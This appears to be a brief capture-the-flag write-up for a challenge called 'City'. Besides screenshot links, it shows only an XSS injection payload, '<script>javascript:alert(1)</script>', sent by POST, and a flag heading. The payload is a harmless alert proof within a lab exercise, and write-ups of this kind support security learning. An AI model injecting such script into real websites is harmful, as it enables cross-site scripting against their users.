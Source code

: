 # ~ Chall 2 | City 🕵️
![-07-06 042120](https://user-images.githubusercontent.com/108769252/177446080-4234e47e-5c25-44c6-a087-d66cd90145bf.png)
POST:X55 = XSS
PAYLOAD: <script>javascript:alert(1)</script>

# FLAG 😊
![2022-07-06 042421](https://user-images.githubusercontent.com/108769252/177446996-612e57d1-236d-4057-832c-a2a1550648e8.png)
 
